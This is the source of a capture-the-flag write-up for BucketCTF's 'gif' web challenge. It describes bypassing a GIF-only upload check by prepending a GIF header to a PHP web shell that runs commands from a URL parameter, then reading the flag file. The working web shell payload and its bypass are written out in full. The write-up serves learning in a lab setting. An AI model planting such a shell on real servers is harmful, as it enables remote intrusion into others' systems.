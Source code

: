```yaml
---
author: "Asad Ullah"
title: "Gif  - BucketCTF"
description: 
summary: Write-up on web challenge gif tackling a file upload vulnerability.
date: 2023-04-10T05:04:14+05:00
Section: write-ups
categories:
- writeup
- web
- ctftime.org

tags:
- bucketctf
- web exploitation
- upload vulnerability
- php
- payload
- gif

draft: false

---
```


{{< 
ctftime 
name="gif" 
difficulty="Hard"  
points="272"
category="Web"
>}}

&nbsp;

&nbsp;





## Description

I made a **secure** php web app where I can upload all my gifs. Some people on the internet told me to run it in a docker container just to protect it from my personal files, but who cares.

## Approach

At first, I uplaoded a Gif fie which was uploaded successfully then I attempted to upload a basic PHP payload and got this error

![Untitled](/write-ups/ctftime/bucket/uploads.webp#center)

from the error we can see that the files are stored at `/uploads`.

As the server only permitted GIF files.I modified the payload by adding a GIF header, `GIF87a;`.

```php
GIF87a;
<?php
    system($_GET['cmd'])
?>
```

&nbsp;

![Untitled](/write-ups/ctftime/bucket/upload.webp#center)

&nbsp;

And it worked we got remote code execution. We can now execute commands on the machine

&nbsp;

![Untitled](/write-ups/ctftime/bucket/gif-id.webp#center)

&nbsp;

we can find the flag at: `/uploads/payload.php/?cmd=cat /flag.txt`

&nbsp;

![Untitled](/write-ups/ctftime/bucket/flag.webp#center)

&nbsp;

&nbsp;

---

**Flag: `bucket{1_h4t3_PHP}`**

---

&nbsp;

&nbsp;

